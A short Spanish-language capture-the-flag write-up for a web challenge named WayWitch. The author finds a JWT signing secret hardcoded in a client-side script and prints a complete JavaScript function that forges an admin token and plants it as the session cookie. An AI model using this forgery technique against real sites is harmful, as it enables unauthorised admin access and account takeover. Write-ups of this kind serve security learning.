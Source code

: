 # WEB

## WayWitch

Nos da simplemetn una pagina que envia tickets, pense que seria xss o algo pero nel:
![Página de tickets](https://github.com/user-attachments/assets/83728517-1390-4ca1-97ba-788d5cd11128)

revise los scripts de la pagina y al parecer hay unscript que crea el jwt y lo ahce son la secret key en el mismo script.
descifrando la cookie dice user:ghesst_11133
que no nos interesa lo cambiamos a admincon la aydua de la consoal de comandos:

``` script
async function generateAdminJWT() {
    const header = {
        alg: "HS256",
        typ: "JWT",
    };

    const payload = {
        username: "admin",
        role: "admin",  // <- Aquí establecemos el rol de admin
        iat: Math.floor(Date.now() / 1000),
    };

    const secretKey = await crypto.subtle.importKey(
        "raw",
        new TextEncoder().encode("halloween-secret"),
        { name: "HMAC", hash: "SHA-256" },
        false,
        ["sign"],
    );

    const headerBase64 = btoa(JSON.stringify(header))
        .replace(/\+/g, "-")
        .replace(/\//g, "_")
        .replace(/=+$/, "");
    const payloadBase64 = btoa(JSON.stringify(payload))
        .replace(/\+/g, "-")
        .replace(/\//g, "_")
        .replace(/=+$/, "");

    const dataToSign = `${headerBase64}.${payloadBase64}`;
    const signatureArrayBuffer = await crypto.subtle.sign(
        { name: "HMAC" },
        secretKey,
        new TextEncoder().encode(dataToSign),
    );

    const signatureBase64 = btoa(
        String.fromCharCode.apply(
            null,
            new Uint8Array(signatureArrayBuffer),
        ),
    )
        .replace(/\+/g, "-")
        .replace(/\//g, "_")
        .replace(/=+$/, "");

    const token = `${dataToSign}.${signatureBase64}`;

    document.cookie = `session_token=${token}; path=/; max-age=${60 * 60 * 24}; Secure`;
```